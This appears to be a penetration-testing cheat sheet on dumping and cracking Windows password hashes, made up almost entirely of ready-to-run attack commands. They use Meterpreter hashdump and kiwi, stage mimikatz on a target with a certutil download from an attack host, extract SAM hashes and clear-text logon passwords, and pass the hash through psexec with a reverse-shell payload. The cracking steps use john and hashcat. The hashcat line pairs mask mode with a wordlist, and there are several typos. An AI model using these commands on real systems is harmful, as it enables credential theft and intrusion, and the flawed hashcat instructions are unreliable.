 # Windows - Dump/Crack Hashes

## Dumping

Required elevated privilege

```bash
# meterpreter tool
hashdump
```

```bash
# windows local password file
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml 
```

### Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**

{% code title="Metasploit module" %}
```bash
# load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

# dump from SAM db
lsa_dump_sam
```
{% endcode %}

{% code title="Metasploit" %}
```bash
use post/windows/gather/hashdump
set SESSION
run
```
{% endcode %}

{% code title="Shell" %}
```bash
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}

{% code title="mimikatz.exe" %}
```bash
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}

***

### Pass-The-Hash Attack

**PTH attack** is a exploitation technique that involves capturing or harvesting NTML hashes or clear-text passwords and utilize them **to auth** with the target legitimately.

We can use the **PsExec** module to legitimately authenticate with the target system **via SMB**.

```bash
# with the high privilege account we can get a all hash stored in the target
hashdump

# with the NTML hash we can try access in other account with PsExec module
use exploit/windows/smb/psexec
set RHOSTS
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser USER
set SMBPass NTML_HASH
exploit
```

NTLS Hash: Administrator:500:_aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d_:::

***

## Cracking

<pre class="language-bash"><code class="lang-bash"><strong># unzip rockyou.txt
</strong><strong>gzip -d rockyou.txt.gz
</strong></code></pre>

Copy the result of hashdump in a file

{% code title="file.txt" %}
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
```
{% endcode %}

Crack it with John or hashcat

{% code title="JohnTheRipper" %}
```bash
john --format=NT file.txt --wordlist=/PATH/TO/rockyou.txt
```
{% endcode %}

{% code title="Hashcat" %}
```bash
# check the code of specific format
hashcat --help

# crack NTML
hashcat -a 3 -m 1000 file.txt /PATH/TO/rockyou.txt

# -m: hash format 
# -a: 
```
{% endcode %}

{% code title="Metasploit" %}
```bash
use auxiliary/analyze/crack_windows
show options
run
```
{% endcode %}
